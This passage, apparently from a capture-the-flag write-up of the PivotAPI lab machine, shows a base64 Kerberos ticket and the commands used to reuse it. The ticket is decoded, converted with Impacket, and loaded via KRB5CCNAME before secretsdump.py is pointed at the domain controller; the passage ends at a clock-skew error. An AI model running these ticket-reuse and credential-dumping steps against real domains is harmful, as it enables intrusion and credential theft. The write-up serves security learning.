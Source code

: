           doIFeDCCBXSgAwIBBaEDAgEWooIEajCCBGZhggRiMIIEXqADAgEFoRQbEkxJQ09SREVCRUxMT1RBLkhUQqInMCWgAwIBAqEeMBwbBmtyYnRndBsSTElDT1JERUJFTExPVEEuSFRCo4IEFjCCBBKgAwIBEqEDAgECooIEBASCBABJUJ+3dI0WAc0Nc/skPSgNY06KqGmwSNChX7FUMhYv+0MfoPwC4fKCbSO0nnDq1/RDQaUNRcqWl1D1l
    dEObdHU6YyV0ebo6pZ8i4suKjXTX5M/gVz4ONSE4x05HHLSKI1wbmX7lWemSd5vzBmd9pgvp8D8CzN270ncW/c+gbcdv9OJ3EFNChci54AoUm1GbTlV4VJk8bLeTaSG9TmtQc/7pzXxcjBXbQ2hyfh4RaYFfg2LVmPv2x2Dr1/WhhcEaL/TrnIaWnhxZs6kIfmiHqh9c3ZGEgeuW3I9fwd+mUMCJqKOXSCdtgBUh70E+xHasNCqv/WCIfbb/II9
    SHdDCI8Gj7eeRyeL+JY/YOXnHEtDtBcOHOmRHl+pTSRp3gDJyvpv5a7jdZD/4NDnlXtLOTPogKl90NRqpl5TyZShaCT8zso1yOGShy9e62LPTIpGGdEn+0QkilTu6SnKMvFP8peypzXCSHdbigKxrXnCpOlih0cS3RFvOS0l/NWiu2rz1Jf9OK4eStuDaE2MhP+58kozQRyAhKCAVQw02V9g+r9jR+3xe96mKHG00ZPwLRgpRVfcHypgfWy9Hqr
    MtvO8tZpsbpd/+r32bGgce2aVtZp0rgq3NK1aD/ORE4V6AmynfgsQ+S4d53Dc76511AVtS1t11E6I1ilJVcMH+KnxGxOHi578pKSWHNPoUE5aQ58alCYIbljJcM/En16v+r+xM/rr8n9o483ma8b5KBuye5LZ1UB8IwlXSQSZbnB5y0cunIYgdfeBfBBB82ZWQcOx+kDyJIC/LkjBLxdpvPY8iqgk5GSn1KAQAu4lsFbgoRgT0BwhaueURGWNGy
    gRyNe7tPxUp3WJCTrItYEG+JHcERBorY17wvPZ24QcCEjf26k1PiedA0LplVSVzjW+c8dka3JZfsB0hC5HAJzairIt5yFIUy+iuFSNC3aRYUfxXrtGJYNmfwjHsWiUX3sFBUTnSmwZIqB9dgE175fto4C9EEjdOGtQBKHde9Y8foxEJaosVg6XTHNPpft5hmly0uQlEuVFIBOEbMaZ/NfJ7frBF/rMrdR8w2ZLp2+F6A/Akww+5TukENgPCszCL
    P7Y70VP4FXVK34r0JnEg4E8OoMs45iFN3eT9PU/kwNRCthxPx9xKvJd6cT9tzS8x9DbODLTbwhWrVIgTYXk6Fdlh/ogJXOd/DyF6ied0JEmy1znWnLwV2Vf+/ERnKEe0OJup3Pvsy8eNygMLBSMZ50K52Mr0oxplFP4rYXuR1hEoqgXJM++C+R7w4SUcNdtq7VcTpZkphV55YG6YugAaCOvrkwh66vgu0gQ39wrl23aWmli93cGdYC7+v4LzlXm
    qu5j15djwxPFo4H5MIH2oAMCAQCige4Eget9gegwgeWggeIwgd8wgdygKzApoAMCARKhIgQgaAtQsYwuKV21JRM2y619pvqa/Kam3r7S+Pi4vd6wVHChFBsSTElDT1JERUJFTExPVEEuSFRCohYwFKADAgEBoQ0wCxsJUElWT1RBUEkkowcDBQBgoQAApREYDzIwMjExMTA3MjExODE5WqYRGA8yMDIxMTEwODA3MTgxOVqnERgPMjAyMTExMTQ
    yMTE4MTlaqBQbEkxJQ09SREVCRUxMT1RBLkhUQqknMCWgAwIBAqEeMBwbBmtyYnRndBsSTElDT1JERUJFTExPVEEuSFRC
    

I’ll save that base64-encoded ticket to a file, and decode it into a new file:

    
    
    oxdf@parrot$ base64 -d machine.kirbi.b64 > machine.kirbi
    

Now I’ll convert it to ccache format with [another Impacket
tool](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py),
`ticketConverter.py`:

    
    
    oxdf@parrot$ ticketConverter.py machine.kirbi machine.ccache
    Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation
    
    [*] converting kirbi to ccache...
    [+] done
    

I’ll set that file to be the `KRB5CCNAME` environment variable so that it is
used to authentication on upcoming commands:

    
    
    oxdf@parrot$ export KRB5CCNAME=/home/oxdf/hackthebox/pivotapi-10.10.10.240/machine.ccache
    

#### Time Skew

It’s possible to run into issues if the clock on my system and the DC are off
by more than a few minutes. That will happen here. If I try to run
`secretsdump.py` now, it will fail:

    
    
    oxdf@parrot$ secretsdump.py LICORDEBELLOTA.HTB/pivotapi\$@pivotapi.licordebellota.htb -dc-ip 10.10.10.240 -no-pass -k         
    Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation
    